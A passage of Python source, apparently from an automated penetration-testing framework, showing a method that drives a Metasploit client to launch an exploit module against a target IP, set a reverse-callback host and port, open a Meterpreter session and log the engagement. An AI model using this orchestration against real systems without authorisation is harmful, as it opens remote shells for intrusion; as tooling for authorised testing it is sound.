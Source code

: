 ````python
    def execute_exploit(self, target: Target, exploit_module: str, payload: str) -> Optional[Session]:
        """Execute exploit against target"""
        logger.info(f"Executing exploit {exploit_module} against {target.ip_address}")

        if not self.msf_client:
            return None

        try:
            # Load exploit module
            exploit = self.msf_client.modules.use('exploit', exploit_module)

            # Set target options
            exploit['RHOST'] = target.ip_address
            exploit['PAYLOAD'] = payload
            exploit['LHOST'] = self.config.get('callback_host', '192.168.1.50')
            exploit['LPORT'] = self.config.get('callback_port', 4444)

            # Execute exploit
            logger.info("Launching exploit...")
            result = exploit.execute()

            if result and 'session_id' in result:
                # Create session object
                session = Session(
                    session_id=result['session_id'],
                    target_id=target.target_id,
                    exploit_used=exploit_module,
                    payload_type=PayloadType.METERPRETER,
                    established_at=datetime.now(),
                    last_activity=datetime.now(),
                    privileges='user',
                    persistence_level='none',
                    stealth_rating=7,
                    data_collected=[]
                )

                self._store_session(session)

                # Log successful exploitation
                self._log_engagement_activity(
                    EngagementPhase.INITIAL_ACCESS,
                    target.target_id,
                    session.session_id,
                    "successful_exploitation",
                    f"Successfully exploited {target.ip_address} using {exploit_module}",
                    True,
                    {"exploit": exploit_module, "payload": payload}
                )

                logger.info(f"Successfully established session: {session.session_id}")
                return session

        except Exception as e:
            logger.error(f"Exploit execution failed: {e}")

            # Log failed exploitation
            self._log_engagement_activity(
                EngagementPhase.INITIAL_ACCESS,
                target.target_id,
                None,
                "failed_exploitation",
                f"Failed to exploit {target.ip_address} using {exploit_module}: {str(e)}",
````